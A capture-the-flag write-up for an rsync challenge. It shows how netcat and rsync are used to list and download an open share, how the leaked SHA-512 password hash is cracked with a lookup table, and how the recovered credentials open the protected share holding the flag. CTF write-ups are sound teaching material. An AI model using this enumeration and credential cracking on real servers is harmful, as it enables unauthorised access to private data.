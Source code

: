 # Sharing
> pwn the service to get the flag
> 
> challenges.ctf.sikt.no:5009

## Solution
netcat shows that rsync is listening on the port:
```bash
$ nc challenges.ctf.sikt.no 5009
@RSYNCD: 31.0 sha512 sha256 sha1 md5 md4
```

List content with rsync
```bash
rsync --port=5009 challenges.ctf.sikt.no::
open            Open share
protected       Protected share
```

Download the content of the open share
```bash
mkdir share
cd share
$ rsync -av rsync://challenges.ctf.sikt.no:5009/open .
```

The following two files are downloaded:

password_hash.txt:
```
9375d1abdb644a01955bccad12e2f5c2bd8a3e226187e548d99c559a99461453b980123746753d07c169c22a5d9cc75cb158f0e8d8c0e713559775b5e1391fc4
```
users.txt:
```
ted
```

Decode the hash using a sha512 rainbow table like https://sha512.web-max.ca/
The decoded string is `grape`.

List the files in the protected share with the user `ted` and password `grape`:
```bash
rsync --port=5009 ted@challenges.ctf.sikt.no::protected
Password: grape
dr-xr-xr-x          4,096 2024/10/04 14:44:05 .
-r-xr-xr-x             26 2024/09/03 12:23:47 flag.txt
```

Download flag.txt with the user `ted` and password `grape`:
```bash
$ rsync -av rsync://ted@challenges.ctf.sikt.no:5009/protected .
```

The flag is in the file flag.txt.

```bash
$ cat flag.txt
SiktCTF{Sh4r1nG_1s_C4r1nG}
```